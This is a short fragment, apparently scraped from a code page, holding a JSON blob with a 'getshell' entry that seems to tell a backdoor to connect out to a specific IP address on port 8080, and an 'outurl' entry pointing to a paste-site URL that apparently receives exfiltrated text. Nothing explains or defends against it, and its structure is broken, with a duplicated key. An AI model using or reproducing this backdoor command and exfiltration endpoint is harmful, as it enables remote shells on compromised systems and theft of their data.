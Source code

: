 
{"all":{"getshell":"?rawdoor r t 23.239.208.23 8080~open"},"all":{"outurl":"http://kl1p.com/nxZg?save=true&id=160399&type=code&name=nxZg&nid=&param=text%2Fplain&client=web&text="}}
